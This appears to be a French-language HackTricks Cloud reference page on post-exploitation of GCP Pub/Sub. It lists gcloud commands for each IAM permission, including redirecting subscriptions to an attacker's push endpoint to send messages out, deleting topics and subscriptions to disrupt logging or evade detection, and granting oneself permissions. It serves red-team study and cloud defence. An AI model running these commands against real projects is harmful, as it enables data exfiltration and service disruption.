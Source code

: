# GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Pub/Sub

Pour plus d'informations sur Pub/Sub, consultez la page suivante :

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publiez un message dans un sujet, utile pour **envoyer des données inattendues** et déclencher des fonctionnalités inattendues ou exploiter des vulnérabilités :
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Utile pour empêcher une souscription de recevoir des messages, peut-être pour éviter la détection.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Utile pour empêcher une souscription de recevoir des messages, peut-être pour éviter la détection.\
Il est possible de supprimer un sujet même avec des souscriptions qui y sont attachées.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Utilisez cette autorisation pour mettre à jour certains paramètres du sujet afin de le perturber, comme `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Donnez-vous la permission d'effectuer l'une des attaques précédentes.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Obtenez tous les messages dans un serveur web :

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Créez une souscription et utilisez-la pour **tirer des messages** :
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Supprimer une souscription** pourrait être utile pour perturber un système de traitement de journaux ou quelque chose de similaire :
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Utilisez cette autorisation pour mettre à jour certains paramètres afin que les messages soient stockés à un endroit auquel vous pouvez accéder (URL, table Big Query, Bucket) ou simplement pour le perturber.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Donnez-vous les autorisations nécessaires pour effectuer l'une des attaques précédemment commentées.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Attaquez un schéma à un sujet afin que les messages ne le remplissent pas et que le sujet soit perturbé.\
S'il n'y a pas de schémas, vous devrez peut-être en créer un.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Cela peut sembler comme supprimer un schéma, vous pourrez envoyer des messages qui ne respectent pas le schéma. Cependant, comme le schéma sera supprimé, aucun message n'entrera réellement dans le sujet. Donc, c'est **INUTILE** :
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Donnez-vous les autorisations nécessaires pour effectuer l'une des attaques précédemment commentées.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Cela créera un instantané de tous les messages non ACK et les remettra à l'abonnement. Pas très utile pour un attaquant mais voici :
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
